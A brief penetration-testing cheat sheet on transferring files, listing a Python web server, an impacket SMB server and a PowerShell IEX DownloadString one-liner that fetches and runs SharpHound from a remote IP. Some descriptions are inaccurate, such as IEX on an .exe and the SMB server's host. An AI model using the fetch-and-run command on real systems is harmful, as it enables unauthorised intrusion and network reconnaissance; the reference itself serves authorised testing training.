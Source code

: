 # Transfering files

***

| Command                                                                                                                  | Description                                                                                          |
| ------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------- |
| `sudo python3 -m http.server 8001`                                                                                       | Starts a python web server for quick hosting of files. Performed from a Linux-basd host.             |
| `"IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"`                                   | PowerShell one-liner used to download a file from a web server. Performed from a Windows-based host. |
| `impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/` | Starts a impacket `SMB` server for quick hosting of a file. Performed from a Windows-based host.     |
